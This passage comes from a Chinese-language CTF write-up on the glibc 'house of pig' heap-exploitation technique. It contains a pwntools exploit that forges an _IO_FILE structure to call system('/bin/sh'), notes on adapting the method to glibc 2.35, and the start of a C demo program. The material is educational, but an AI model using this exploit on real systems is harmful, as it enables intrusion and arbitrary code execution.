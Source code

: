 ```python
add(0x430)   # daddy index = 3
change_role(1)
edit(7, p64(heap_address + 0x19E0) * 2 + b'\n')
change_role(2)
add(0xA0)   # daddy index = 4, trigger tcache stashing unlink attack

fake_IO_FILE_complete = p64(0) * 2  # _IO_read_end (0x10), _IO_read_base (0x18)
fake_IO_FILE_complete += p64(1)     # _IO_write_base (0x20)
fake_IO_FILE_complete += p64(0xFFFF_FFFF_FFFF) # _IO_write_ptr (0x28)
fake_IO_FILE_complete += p64(0)     # _IO_write_end (0x30)
fake_IO_FILE_complete += p64(heap_address + 0x19E0 + 0xD0)  # _IO_buf_base (0x38)
fake_IO_FILE_complete += p64(heap_address + 0x19E0 + 0xD0 + 30)  # _IO_buf_end (0x40)
fake_IO_FILE_complete = fake_IO_FILE_complete.ljust(0xB0, b'\x00')
fake_IO_FILE_complete += p64(0)     # _mode (0xB0)
fake_IO_FILE_complete = fake_IO_FILE_complete.ljust(0xC0, b'\x00')
fake_IO_FILE_complete += b'/bin/sh\x00'
fake_IO_FILE_complete += p64(libc_base + 0x1E9560)
payload = fake_IO_FILE_complete + b'/bin/sh\x00' + 2 * p64(system)
io.sendafter(b'Gift:', payload)

io.sendlineafter(b'Choice: ', b'5')
io.sendlineafter(b'user:\n', b'')

io.interactive()
```

由此，我们就完全解决了house of pig这个问题，但不难发现，这种利用方式需要使用``__free_hook``，而这个钩子在更高版本的libc中是不存在的。那么在2.35这样的libc中，我们又应该如何进行利用呢？

其实可以发现，house of pig调用了``_IO_str_overflow``这个函数，如果我们将``vtable``也进行伪造，就相当于可以执行任意函数。这个函数的第一个参数就是伪造的``FILE``结构体自身，如果在结构体开头写入字符串``/bin/sh``，然后通过伪造的``vtable``调用``system``函数，也能够实现同样的功能，再不济要是用了沙箱，也还可以用传统手法——``setcontext``绕一遍，不过那样的话，题目的流程就太长了。

# 4. glibc 2.31版本house of pig演示程序
下面是笔者写的演示程序，如有错误请联系笔者指正。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define BLACK       "30"
#define RED         "31"
#define GREEN       "32"
#define YELLOW      "33"
#define BLUE        "34"
#define PURPLE      "35"
#define GREEN_DARK  "36"
#define WHITE       "37"

#define UNDEFINED   "-1"
#define HIGHLIGHT   "1"
#define UNDERLINE   "4"
#define SPARK       "5"

#define STR_END      "\033[0m"

void printf_color(char* color, char* effect, char* string){
    char buffer[0x1000] = {0};
    strcpy(buffer, "\033[");
    if(effect[0] != '-'){
        strcat(buffer, effect);
        strcat(buffer, ";");
```